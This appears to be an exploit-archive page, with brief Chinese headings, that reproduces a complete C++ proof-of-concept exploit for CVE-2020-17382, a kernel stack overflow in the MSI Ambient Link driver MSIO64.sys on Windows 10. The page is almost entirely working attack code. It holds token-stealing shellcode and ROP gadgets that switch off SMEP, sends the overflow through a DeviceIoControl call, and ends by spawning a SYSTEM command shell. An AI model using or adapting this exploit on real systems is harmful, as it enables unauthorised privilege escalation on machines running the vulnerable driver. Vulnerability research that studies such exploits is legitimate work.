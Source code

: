 <languages /> <translate>

影響版本
--------

</translate>

    Version: 1.0.0.8

EXP
---

    /*
    Exploit Title: MSI Ambient Link Driver 1.0.0.8 - Local Privilege Escalation
    Date: 2020-09-24
    Exploit Author: Matteo Malvica
    Vendor Homepage: https://www.msi.com
    Software Link: https://msi.gm/ABLTMNB
    Driver: MSIO64.sys
    SHA256: 525D9B51A80CA0CD4C5889A96F857E73F3A80DA1FFBAE59851E0F51BDFB0B6CD
    Version: 1.0.0.8
    Tested on: Windows 10 1709 [19041.1.amd64fre.vb_release.191206-1406]
    MSI Ambient Link Driver 1.0.0.8 Kernel Stack Based Buffer Overflow / Local Privilege Escalation
    CVE: CVE-2020-17382
    Writeup: https://www.matteomalvica.com/blog/2020/09/24/weaponizing-cve-2020-17382/
    Original advisory: https://www.coresecurity.com/core-labs/advisories/msi-ambient-link-multiple-vulnerabilities
    */

    #include <iostream>
    #include <string>
    #include <Windows.h>
    #include <Psapi.h>

    #pragma warning( disable : 6387 )

    VOID eopMsio(HANDLE hFile, INT64 kernel_base, DWORD pid, DWORD IoControlCode) {
              // SHELLCODE FOR 1709
              BYTE token_steal[] =
              "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"      // mov rdx, [gs:188h]       ; Get _ETHREAD pointer from KPCR
              "\x4C\x8B\x82\xB8\x00\x00\x00"              // mov r8, [rdx + b8h]      ; _EPROCESS (kd> u PsGetCurrentProcess)
              "\x4D\x8B\x88\xe8\x02\x00\x00"              // mov r9, [r8 + 2e8h]      ; ActiveProcessLinks list head
              "\x49\x8B\x09"                              // mov rcx, [r9]            ; Follow link to first process in list
              //find_system_proc:
              "\x48\x8B\x51\xF8"                          // mov rdx, [rcx - 8]       ; Offset from ActiveProcessLinks to UniqueProcessId
              "\x48\x83\xFA\x04"                          // cmp rdx, 4               ; Process with ID 4 is System process
              "\x74\x05"                                  // jz found_system          ; Found SYSTEM token
              "\x48\x8B\x09"                              // mov rcx, [rcx]           ; Follow _LIST_ENTRY Flink pointer
              "\xEB\xF1"                                  // jmp find_system_proc     ; Loop
              //found_system:
              "\x48\x8B\x41\x70"                          // mov rax, [rcx + 70h]     ; Offset from ActiveProcessLinks to Token
              "\x24\xF0"                                  // and al, 0f0h             ; Clear low 4 bits of _EX_FAST_REF structure
              //find cmd
              "\x48\x8B\x51\xF8"                          // mov rdx, [rcx-8]         ;ActiveProcessLinks - 8 = UniqueProcessId
              "\x48\x81\xFA\x99\x99\x00\x00"              // cmp rdx, 0d54h           ;UniqueProcessId == ZZZZ? (PLACEHOLDER)
              "\x74\x05"                                  // jz found_cmd             ;YES - move on
              "\x48\x8B\x09"                              // mov rcx, [rcx]           ;NO - next entry in list
              "\xEB\xEE"                                  // jmp find_cmd             ;loop
              // found cmd
              "\x48\x89\x41\x70"                          // mov [rcx+70h], rax       ;copy SYSTEM token over top of this process's token
              "\x48\x31\xc9"                              // xor rcx rcx              ; clear some registers to avoid issues while unwinding the call stack
              "\x48\x31\xc0"                              // xor rax rax
              "\x48\x31\xf6"                              // xor rsi,rsi
              "\x48\x31\xff"                              // xor rdi, rdi
              "\x4D\x31\xC0"                              // xor r8, r8
              "\x48\xc7\xc1\xf8\x06\x15\x00"              // mov rcx, 0x1506f8        ; move original cr4 value into rcx
              "\xc3";                                     // ret                      ; RET

        token_steal[54] = pid;
        token_steal[55] = pid >> 8;

        LPVOID allocated_shellcode = VirtualAlloc(NULL,
            sizeof(token_steal),
            MEM_COMMIT | MEM_RESERVE,
            PAGE_EXECUTE_READWRITE);

        memcpy(allocated_shellcode, token_steal, sizeof(token_steal));

        INT64 pop_rcx_offset = kernel_base + 0x15fc70;            // gadget 1 1709 - pop rcx ; ret
        INT64 mov_cr4_offset = kernel_base + 0x76a02;             // gadget 2 1709 - mov cr4, ecx ; ret
        INT64 wbindv_offset = kernel_base + 0x1175c0;;            // gadget 3 1709 - wbinvd; ret
        INT64 rcx_value = 0x506f8;                                // value we want placed in cr4 in order to disable SMEP
        INT64 rcx_old_value = 0x1506f8;                           // original cr4 value
        INT64 ret = pop_rcx_offset + 1;                           // RET NOP

        puts("[+] SMEP disabled");

        BYTE  input_buff[136] = { 0 };
        memset(input_buff, '\x41', 64);
        memset(input_buff, '\x42', 8);                            // dummy RBP
        memcpy(input_buff + 72, (PINT64)&pop_rcx_offset, 8);      // pop rcx
        memcpy(input_buff + 80, (PINT64)&rcx_value, 8);           // disable SMEP value
        memcpy(input_buff + 88, (PINT64)&mov_cr4_offset, 8);      // mov cr4, rcx
        memcpy(input_buff + 96, (PINT64)&wbindv_offset, 8);       // wbinvd; ret
        memcpy(input_buff + 104, (PINT64)&allocated_shellcode, 8);// shellcode
        memcpy(input_buff + 112, (PINT64)&mov_cr4_offset, 8);     // mov cr4, rcx
        memcpy(input_buff + 120, (PINT64)&ret, 8);                // RETNOP to restore the stack
        memcpy(input_buff + 128, (PINT64)&ret, 8);                // RETNOP to restore the stack

        printf("[+] Payload buffer located at: 0x%p\n", &allocated_shellcode);

        DWORD lpBytesReturned = 0x0;
        BOOL triggerIOCTL = DeviceIoControl(hFile,
            IoControlCode,
            input_buff,
            sizeof(input_buff),
            NULL,
            0,
            &lpBytesReturned,
            NULL);

        if (!triggerIOCTL) {
            printf("[!] DeviceIoControl failed: %d\n", GetLastError());
        }
        else {
            puts("[+] SMEP re-enabled");
            puts("[+] Enjoy your SYSTEM shell\n");
        }

        system("start cmd.exe");
    }

    LPVOID GetBaseAddr(const char* drvname) {
        LPVOID drivers[1024];
        DWORD cbNeeded;
        int nDrivers, i = 0;

        if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
            char szDrivers[1024];
            nDrivers = cbNeeded / sizeof(drivers[0]);
            for (i = 0; i < nDrivers; i++) {
                if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                    if (strcmp(szDrivers, drvname) == 0) {
                        return drivers[i];
                    }
                }
            }
        }
        return 0;
    }

    HANDLE GetDriverHandle() {
        HANDLE hMsio;

        hMsio = CreateFileA("\\\\.\\MsIo",
            FILE_READ_ACCESS | FILE_WRITE_ACCESS,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
            NULL);

        if (hMsio == INVALID_HANDLE_VALUE) {
            printf("[-] Error obtaining an handle to the driver: %d\n", GetLastError());
            exit(1);
        }

        return hMsio;
    }

    int main() {
        puts("[*] CVE-2020-17382 - Win10 1709 - PoC by Matteo 'uf0' Malvica");
        DWORD IoControlCode = 0x80102040;
        HANDLE hDevice = GetDriverHandle();
        INT64 nt = (INT64)GetBaseAddr("ntoskrnl.exe");
        DWORD pid = GetCurrentProcessId();

        eopMsio(hDevice, nt, pid, IoControlCode);

        return 0;
    }